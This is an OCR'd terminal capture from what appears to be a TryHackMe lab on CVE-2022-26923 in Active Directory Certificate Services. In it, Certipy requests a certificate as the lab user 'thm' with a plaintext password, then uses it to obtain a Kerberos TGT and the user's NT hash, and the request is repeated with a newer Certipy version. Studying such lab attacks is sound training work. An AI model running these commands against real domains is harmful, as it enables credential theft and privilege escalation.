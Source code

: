 ```
root@ip-10-10-15-15:~# source /root/Rooms/CVE2022-26923/certipy/bin/activate
(certipy) root@ip-10-10-15-15:~# certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
(certipy) root@ip-10-10-15-15:~# certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[-] Got error: The NETBIOS connection with the remote host timed out.
[-] Use -debug to print a stacktrace
(certipy) root@ip-10-10-15-15:~# certipy req 'lunar.eruca.com/thm:Password1@@lundc.lunar.eruca.com' -ca LUNAR-LUNDC-CA -template User
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 16
[*] Got certificate with UPN 'thm@lunar.eruca.com'
[*] Saved certificate and private key to 'thm.pfx'
(certipy) root@ip-10-10-15-15:~# ls
Desktop    Instructions  Postman  Scripts            thm.pfx
Downloads  Pictures      Rooms    thinclient_drives  Tools

(certipy) root@ip-10-10-15-15:~# certipy auth -pfx thm.pfx
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: thm@lunar.eruca.com
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'thm.ccache'
[*] Trying to retrieve NT hash for 'thm'
[*] Got NT hash for 'thm@lunar.eruca.com': 43460d636f269c709b20049cee36ae7a



I see is a different version so

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ certipy-ad req -u thm@lunar.eruca.com -p Password1@ -ca LUNAR-LUNDC-CA -template User

Certipy v4.3.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 19
[*] Got certificate with UPN 'thm@lunar.eruca.com'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'thm.pfx'
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ ls                   
thm.pfx
                                                                                  
┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
└─$ file thm.pfx 
thm.pfx: data

┌──(witty㉿kali)-[~/Downloads/CVE-2022-26923]
```